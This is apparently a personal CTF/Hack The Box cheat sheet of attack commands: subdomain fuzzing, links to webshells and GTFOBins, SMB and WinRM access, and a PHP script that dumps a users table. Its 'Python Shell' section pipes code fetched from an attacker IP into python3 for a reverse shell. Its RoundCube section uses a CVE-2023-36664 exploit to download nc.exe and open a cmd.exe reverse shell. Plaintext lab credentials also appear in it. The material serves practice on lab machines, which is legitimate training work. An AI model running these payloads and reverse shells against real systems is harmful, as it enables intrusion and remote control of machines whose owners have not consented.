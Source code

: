 # CTF gathered resources 

## Enum

- subdomain enum `ffuf` | `go install github.com/ffuf/ffuf/v2@latest` | `ffuf -w ./Subdomain.txt -u http://monitorsthree.htb -H "Host: FUZZ" -fs 13560`

## PrivEsc

```
https://gtfobins.github.io/
```
## Commands

- `sudo -l`
- `puttygen keeper.ppk -O private-openssh -o keeper.pem` PPK to PEM
- `ansible2john ansible.vaul >> hashes`

## Webshells

- PHP webshell file upload feature - https://raw.githubusercontent.com/artyuum/simple-php-web-shell/master/index.php
- PHP webshell, multiple function exploit - https://github.com/flozz/p0wny-shell

## Python Shell

```
python2 handler.py -b 10.10.14.92:8888
# Run the reverse shell
curl 10.10.14.92:8000/shell.py|python3
```
## Kali

`/usr/share/windows-binaries/nc.exe`

## Samba

```
smbclient -L \\\\authority.htb\\
smbclient  \\\\authority.htb\\Development
```

## Windows

- `evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'` SSH for windows
-  `sudo responder -I tun0` Start some service

## PHP get DB

```php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
$sql = "SELECT * FROM users";

// Execute the query
$result = mysqli_query($link, $sql);
if ($result) {
    // Check if there are rows in the result set
    if (mysqli_num_rows($result) > 0) {
        // Output data of each row
        while ($row = mysqli_fetch_assoc($result)) {
            print_r($row); // You can customize this output based on your needs
            echo "<br>";
        }
    } else {
        echo "No records found";
    }

    // Free result set
    mysqli_free_result($result);
} else {
    echo "ERROR: Could not execute $sql. " . mysqli_error($link);
}

// Close connection
mysqli_close($link);
?>
```

## RoundCube

```
python3 CVE_2023_36664_exploit.py --generate --payload "curl 10.10.14.92:8000/nc.exe -o nc.exe" --filename first --extension eps
# execute shell
python3 CVE_2023_36664_exploit.py --generate --payload "nc.exe -e cmd.exe 10.10.14.92 6666" --filename second --extension eps
```
